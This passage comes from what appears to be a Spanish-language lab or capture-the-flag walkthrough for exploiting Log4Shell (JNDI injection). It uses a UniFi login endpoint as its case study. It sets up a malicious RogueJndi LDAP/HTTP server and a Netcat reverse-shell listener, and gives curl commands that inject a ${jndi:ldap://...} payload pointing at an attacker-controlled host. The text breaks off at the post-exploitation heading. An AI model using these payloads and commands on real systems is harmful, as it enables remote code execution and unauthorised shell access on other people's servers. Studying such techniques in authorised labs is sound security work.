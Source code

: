 * `java -jar RogueJndi-1.1.jar`: Ejecuta la aplicación RogueJndi.
* `--command "..."`: Aquí le pasamos el comando complejo que decodificará y ejecutará nuestra reverse shell.
* `--hostname "[IP_ATACANTE]"`: Crucial. Esta es la IP de tu máquina atacante (la que el servidor objetivo usará para contactar al servidor LDAP y descargar el payload).

**Qué hace el servidor JNDI malicioso (ej. RogueJndi):**
Este tipo de herramientas inician un servidor LDAP (por defecto en el puerto 1389) y un servidor HTTP (por defecto en el puerto 8000 o similar). Cuando el servidor vulnerable intente resolver la URL JNDI, se conectará al LDAP. El servidor JNDI malicioso le indicará entonces al objetivo que descargue un objeto Java malicioso desde el servidor HTTP (el mismo atacante) que contiene el comando a ejecutar. Al deserializar y cargar ese objeto, el servidor objetivo ejecutará el comando especificado.

**Configurar el listener de Netcat para la reverse shell:**
Abre otra nueva terminal en tu máquina atacante y pon Netcat a la escucha en el puerto que especificaste en tu payload de reverse shell (ej., 443).

```bash
sudo nc -lvnp [PUERTO_LISTENER]
```

* `sudo`: Puede ser necesario para escuchar en puertos bajos (como 443).
* `-l`: Modo de escucha.
* `-v`: Modo verbose.
* `-n`: No resuelva nombres DNS.
* `-p [PUERTO_LISTENER]`: Escucha en el puerto especificado.

### 4. Envío del Payload Final para Ejecutar la Shell

Con el servidor JNDI malicioso y Netcat a la escucha, es el momento de enviar la inyección final a la aplicación objetivo.

**Enviar el payload JNDI a la aplicación vulnerable:**
Usa tu herramienta proxy (ej. Burp Suite) para interceptar y modificar una petición, o usa `curl`.
Asegúrate de sustituir `[IP_OBJETIVO]` por la IP del servidor vulnerable y `[IP_ATACANTE]` por la IP de tu máquina.

```bash
curl -X POST -H "Content-Type: application/json" -d '{"param_vulnerable":"${jndi:ldap://[IP_ATACANTE]:1389/o=payload}", "otro_param":"valor"}' http://[IP_OBJETIVO]:[PUERTO]/[RUTA] --insecure
```

* `"${jndi:ldap://[IP_ATACANTE]:1389/o=payload}"`: Esta es la URL JNDI que inyectamos.
* `[IP_ATACANTE]:1389`: Es la dirección y el puerto de tu servidor LDAP malicioso.
* `/o=payload`: Es una referencia genérica que el servidor JNDI malicioso interpreta para servir el payload.

**Ejemplo específico (UniFi como caso de estudio):**

```bash
curl -X POST -H "Content-Type: application/json" -d '{"username":"test","password":"test","remember":"${jndi:ldap://10.10.14.92:1389/o=tomcat}", "strict":true}' https://[IP_UNIFI]:8443/api/login --insecure
```

### 5. Recepción de la Shell y Post-Explotación
